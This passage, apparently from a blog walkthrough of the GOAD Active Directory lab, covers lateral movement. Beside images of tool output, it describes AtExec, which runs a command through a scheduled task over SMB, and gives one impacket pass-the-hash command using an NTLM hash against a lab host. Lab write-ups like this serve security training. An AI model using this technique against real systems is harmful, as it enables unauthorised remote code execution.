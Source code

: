 ![lateral_smbexec_wireshark.png](/assets/blog/GOAD/lateral_smbexec_wireshark.png)

#### AtExec

AtExec (execute command):
  - use a schedule task to run the command
  - protocol SMB

```bash
atexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![lateral_atexec.png](/assets/blog/GOAD/lateral_atexec.png)
